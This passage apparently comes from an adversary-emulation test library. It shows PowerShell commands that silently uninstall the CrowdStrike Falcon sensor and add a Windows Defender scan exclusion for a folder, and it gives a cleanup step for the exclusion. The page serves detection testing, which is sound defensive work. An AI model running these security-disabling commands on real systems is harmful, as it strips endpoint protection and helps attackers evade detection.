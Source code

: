 **Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| falcond_path | The Crowdstrike Windows Sensor path. The Guid always changes. | path | C:&#92;ProgramData&#92;Package Cache&#92;{7489ba93-b668-447f-8401-7e57a6fe538d}&#92;WindowsSensor.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if (Test-Path "#{falcond_path}") {. "#{falcond_path}" /repair /uninstall /quiet } else { Get-ChildItem -Path "C:\ProgramData\Package Cache" -Include "WindowsSensor.exe" -Recurse | % { $sig=$(Get-AuthenticodeSignature -FilePath $_.FullName); if ($sig.Status -eq "Valid" -and $sig.SignerCertificate.DnsNameList -eq "CrowdStrike, Inc.") { . "$_" /repair /uninstall /quiet; break;}}}
```






<br/>
<br/>

## Atomic Test #22 - Tamper with Windows Defender Evade Scanning -Folder
Malware can exclude a specific path from being scanned and evading detection. 
Upon successul execution, the file provided should be on the list of excluded path. 
To check the exclusion list using poweshell (Get-MpPreference).ExclusionPath

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| excluded_folder | This folder will be excluded from scanning | String | C:&#92;Temp|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$excludedpath= "#{excluded_folder}"
Add-MpPreference -ExclusionPath $excludedpath
```

#### Cleanup Commands:
```powershell
$excludedpath= "#{excluded_folder}"
Remove-MpPreference -ExclusionPath $excludedpath
```
